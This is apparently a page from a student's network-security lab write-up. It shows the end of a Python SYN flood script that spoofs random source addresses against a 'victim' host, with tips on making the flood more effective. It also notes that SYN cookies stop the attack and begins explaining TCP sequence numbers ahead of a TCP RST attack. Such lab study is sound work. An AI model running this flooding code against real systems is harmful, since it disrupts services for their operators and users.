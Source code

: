 ```python
    while True:
        # Build packet
        ip.src = str(IPv4Address(getrandbits(32))) # source iP
        tcp.sport = getrandbits(16) # source port
        tcp.seq = getrandbits(32) # sequence number
        
        # Send the packet
        send(ip / tcp, verbose = 0)

def usage():
    print('Usage: ./synflood.py <ip-address> <port>\
    \n\tip-address: IP address of victim\
    \n\tport: Port number to attack\n')
    
    
if __name__ == '__main__':
    main()
```

Some issues can be noticed however
- The attack is a hit-and-miss. This is so because `python` is an interpreted language and doesn't do so well where performance and speed is required. Many of the attacks would prevent a legitimate connection but only for a few seconds
- The attack success rate increases the more the number of attacking instances increase. This means that the more consoles you run the Python code from the better your chances of success.
- This issue is not present however when the attack is launched using the instructor's `c` code. This is because `c` as a compiled language is more than able to keep up with the speed and performance required for the attack to succeed

When the SYN cookie mechanism is enabled `# sysctl  net.ipv4.tcp_syncookies=1` and the attacks are run again, it is noticed that the attacks do not work.

<br>

### TCP RST Attacks on telnet Connections
To successfully perform a `TCP RST` attack, you need to understand how sequence numbers and acknowledgment numbers work. It is through the aid of sequence and acknowledgment numbers that hosts can keep track of the information exchanged between them and thus retransmit any packet that did not make it to its destination.

To establish a `TCP` connection, both the `server` and the `client` choose a sequence number and perform the three-way handshake
- When the `client` wants to send data to the `server`,
  - the `client` sets its sequence number and sets the `PSH ACK` flag in the packet it sends to the `server`. The acknowledgment number set is the `server` (sequence number + payload size).
  - the `client` expects that in the reply it gets, the acknowledgment number will be equal to (its sequence number + the size of the payload) when it sent out the packet to the `server`
- When the `server` receives the data from the `client` and replies
  - the `server` uses the `client` (sequence number + payload size) as the acknowledgment number and sets its sequence number and sends a packet with the `ACK` flag set

Thus to perform the `TCP RST` attack, what matters is that you get the right sequence number. You can ignore the acknowledgment number because these are used to track if the destination received the message sent or not. Also, it is important to note that the server is the one that closes the connection.
